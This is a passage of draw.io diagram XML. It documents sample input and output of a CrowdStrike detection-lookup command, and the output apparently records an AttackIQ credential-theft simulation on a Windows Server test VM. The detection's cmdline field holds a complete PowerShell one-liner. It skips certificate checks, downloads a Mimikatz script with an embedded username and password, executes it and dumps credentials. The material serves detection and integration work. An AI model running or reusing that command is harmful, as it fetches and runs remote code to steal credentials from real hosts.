&quot;T1003&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;display_name&quot;: &quot;PShellMimikatz&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;description&quot;: &quot;A PowerShell script appears to be launching mimikatz, a password dumping utility. This is often launched as part of a PowerShell exploit kit. Decode and review the script.&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;severity&quot;: 70,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;confidence&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_type&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_value&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_source&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_description&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;user_name&quot;: &quot;WIN-5KM58PAUOE8$&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;user_id&quot;: &quot;S-1-5-18&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;control_graph_id&quot;: &quot;ctg:6de5f3fad8004ca8a97cdc7c565edf9c:18566056045&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;triggering_process_graph_id&quot;: &quot;pid:6de5f3fad8004ca8a97cdc7c565edf9c:454074737021&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;sha256&quot;: &quot;e82115ffd93298cbf1d5837677f5e1cfd5fc515b53f2cf02c473b0f63d542bca&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;md5&quot;: &quot;349f866bd2fa869ed047707c5723b9f1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_details&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_sha256&quot;: &quot;5275c42f7359fa2c7ec473be3240e57d5ce5b9301a26bd2e98e89bb9db074581&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_md5&quot;: &quot;22730c835d3129c7567b963699763cbe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_cmdline&quot;: &quot;\&quot;C:\\Program Files\\AttackIQ\\Agent\\engine\\py3\\python\&quot; \&quot;C:\\Program Files\\AttackIQ\\Agent\\attack_graph.py\&quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_process_graph_id&quot;: &quot;pid:6de5f3fad8004ca8a97cdc7c565edf9c:454062376310&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;pattern_disposition&quot;: 2304,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;pattern_disposition_details&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;indicator&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;detect&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;inddet_mask&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;sensor_only&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;rooting&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_process&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_subprocess&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;quarantine_machine&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;quarantine_file&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;policy_disabled&quot;: true,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_parent&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;operation_blocked&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;process_blocked&quot;: true,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;registry_operation_blocked&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;critical_process_disabled&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;bootup_safeguard_enabled&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;fs_operation_blocked&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;handle_operation_downgraded&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_action_failed&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;blocking_unsupported_or_disabled&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;suspend_process&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;suspend_parent&quot;: false&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4870" y="220" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-179" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_CrowdstrikeHostRelatedDetection&lt;/div&gt;&lt;div&gt;Parameter 1: Aids&lt;/div&gt;&lt;div&gt;[&quot; &quot;]&lt;/div&gt;&lt;div&gt;Parameter 2: Last Day&lt;/div&gt;&lt;div&gt;7&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4870" y="430" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-180" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;All cid related the host&lt;br&gt;&lt;br&gt;&lt;/p&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;meta&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;query_time&quot;: 0.053,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;powered_by&quot;: &quot;legacy-detects&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;trace_id&quot;: &quot;e00a51e3-fe3d-4a13-bee1-840e2851d0be&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;resources&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cid&quot;: &quot;9140393f79cd4b3ca3298ec0d718d788&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;created_timestamp&quot;: &quot;2023-04-16T12:02:3.38Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;detection_id&quot;: &quot;ldt:6de5f3fad8004ca8a97cdc7c565edf9c:18566056045&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;device&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;device_id&quot;: &quot;6de5f3fad8004ca8a97cdc7c565edf9c&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cid&quot;: &quot;9140393f79cd4b3ca3298ec0d718d788&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;agent_load_flags&quot;: &quot;1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;agent_local_time&quot;: &quot;2023-04-06T14:29:44.117Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;agent_version&quot;: &quot;6.50.164.0&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;bios_manufacturer&quot;: &quot;VMware, Inc.&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;bios_version&quot;: &quot;VMW71.00V.13989454.B64.191&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;config_id_base&quot;: &quot;65994753&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;config_id_build&quot;: &quot;16410&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;config_id_platform&quot;: &quot;3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;external_ip&quot;: &quot;216.251.148.178&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;hostname&quot;: &quot;WIN-5KM58PAUOE8&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;first_seen&quot;: &quot;2023-02-06T22:52:02Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;last_seen&quot;: &quot;2023-04-16T11:39:39Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;local_ip&quot;: &quot;192.168.87.139&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;mac_address&quot;: &quot;00-50-56-b7-f8-df&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;major_version&quot;: &quot;10&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;minor_version&quot;: &quot;0&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;os_version&quot;: &quot;Windows Server 2016&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;platform_id&quot;: &quot;0&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;platform_name&quot;: &quot;Windows&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;product_type&quot;: &quot;3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;product_type_desc&quot;: &quot;Server&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;status&quot;: &quot;normal&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;system_manufacturer&quot;: &quot;VMware, Inc.&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;system_product_name&quot;: &quot;VMware7,1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;groups&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;5563d318b39c4b8395faa26eef031a35&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;modified_timestamp&quot;: &quot;2023-04-16T11:41:25Z&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;behaviors&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;device_id&quot;: &quot;6de5f3fad8004ca8a97cdc7c565edf9c&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;timestamp&quot;: &quot;2023-04-16T12:01:48Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;template_instance_id&quot;: &quot;11&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;behavior_id&quot;: &quot;10147&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;filename&quot;: &quot;powershell.exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;filepath&quot;: &quot;\\Device\\HarddiskVolume4\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;alleged_filetype&quot;: &quot;exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmdline&quot;: &quot;powershell \&quot;[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};\&quot; \&quot;[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;\&quot; \&quot;function get-hash([string]$textToHash){$hasher = new-object System.Security.Cryptography.MD5CryptoServiceProvider; $toHash = [System.Text.Encoding]::UTF8.GetBytes($textToHash); $hashByteArray = $hasher.ComputeHash($toHash); foreach($byte in $hashByteArray) {$result += &#39;{0:X2}&#39; -f $byte};return $result;};\&quot; \&quot;try{$webclient = new-object System.Net.WebClient; $credCache = new-object System.Net.CredentialCache; $creds = new-object System.Net.NetworkCredential(&#39;aiq_mlwre_scenarios&#39;,&#39;nTrBxu74T8u9&#39;);$credCache.Add(&#39;https://testing.scenarios.attackiq-ntm.com/124d22153e45aefaf7294d66846c876234b2b09cc4a16994de9756874d08df33/obf_mim.ps1&#39;, &#39;Basic&#39;, $creds);$webclient.Credentials = $credCache; $mimi=$webclient.DownloadString(&#39;https://testing.scenarios.attackiq-ntm.com/124d22153e45aefaf7294d66846c876234b2b09cc4a16994de9756874d08df33/obf_mim.ps1&#39;);}catch [Net.WebException]{&#39;Download failed&#39;; exit -1 };\&quot; \&quot;if ((get-hash($mimi)) -eq &#39;A0B2F9D7CA22E9848585E238D8F32294&#39;) { IEX $mimi; Invoke-Mimikatz -DumpCreds } else { &#39;Invalid HASH for downloaded Mimikatz PowerShell script&#39;; exit -2 }\&quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;scenario&quot;: &quot;credential_theft&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;objective&quot;: &quot;Gain Access&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;tactic&quot;: &quot;Credential Access&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;tactic_id&quot;: &quot;TA0006&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;technique&quot;: &quot;OS Credential Dumping&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;technique_id&quot;: &quot;T1003&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;display_name&quot;: &quot;PShellMimikatz&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;description&quot;: &quot;A PowerShell script appears to be launching mimikatz, a password dumping utility. This is often launched as part of a PowerShell exploit kit. Decode and review the script.&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;severity&quot;: 70,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;confidence&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_type&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_value&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_source&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_description&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;user_name&quot;: &quot;WIN-5KM58PAUOE8$&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;user_id&quot;: &quot;S-1-5-18&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;control_graph_id&quot;: &quot;ctg:6de5f3fad8004ca8a97cdc7c565edf9c:18566056045&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;triggering_process_graph_id&quot;: &quot;pid:6de5f3fad8004ca8a97cdc7c565edf9c:454074737021&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;sha256&quot;: &quot;e82115ffd93298cbf1d5837677f5e1cfd5fc515b53f2cf02c473b0f63d542bca&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;md5&quot;: &quot;349f866bd2fa869ed047707c5723b9f1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_details&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_sha256&quot;: &quot;5275c42f7359fa2c7ec473be3240e57d5ce5b9301a26bd2e98e89bb9db074581&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_md5&quot;: &quot;22730c835d3129c7567b963699763cbe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_cmdline&quot;: &quot;\&quot;C:\\Program Files\\AttackIQ\\Agent\\engine\\py3\\python\&quot; \&quot;C:\\Program Files\\AttackIQ\\Agent\\attack_graph.py\&quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_process_graph_id&quot;: &quot;pid:6de5f3fad8004ca8a97cdc7c565edf9c:454062376310&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;pattern_disposition&quot;: 2304,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;pattern_disposition_details&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;indicator&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;detect&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;inddet_mask&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;sensor_only&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;rooting&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_process&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_subprocess&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;quarantine_machine&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;quarantine_file&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;policy_disabled&quot;: true,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_parent&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;operation_blocked&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;process_blocked&quot;: true,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;registry_operation_blocked&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;critical_process_disabled&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;bootup_safeguard_enabled&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;fs_operation_blocked&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;handle_operation_downgraded&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_action_failed&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;blocking_unsupported_or_disabled&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;suspend_process&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;suspend_parent&quot;: false&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
